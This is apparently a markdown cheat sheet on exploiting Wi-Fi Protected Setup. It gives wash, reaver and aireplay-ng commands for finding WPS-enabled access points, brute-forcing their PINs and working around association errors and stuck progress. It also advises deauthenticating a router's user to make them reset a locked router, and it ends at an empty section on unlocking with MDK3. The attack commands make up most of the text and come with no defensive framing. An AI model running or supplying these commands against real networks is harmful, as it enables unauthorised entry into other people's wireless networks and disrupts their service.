 # Exploiting WPS
## Bypassing Failed to associate issue
To view WPS-enabled wifi
`wash -i <interface-name>`

`reaver --bssid <access-point-mac-address> --channel <access-point-channel> -i <interface-name> -A`

`aireplay-ng --fakeauth 100 -a <access-point-mac-address> -h <your-mac-address> <interface-name>`

## Bypassing 0x3 and 0x4 Errors
`reaver --bssid <access-point-mac-address> --channel <access-point-channel> -i <interface-name> -A -vvv --no-nacks`

`aireplay-ng --fakeauth 100 -a <access-point-mac-address> -h <your-mac-address> <interface-name>`

This is for solving the error of a stuck reaver progress in its bruteforce.

## Bypassing WPS Lock
Bruteforcing the routers can lead to some routers locking after a number of failed attempts

Try to reset the router or get the user to reset their router via deauthentication

run the wash and reaver command to check

### Unlocking using MDK3

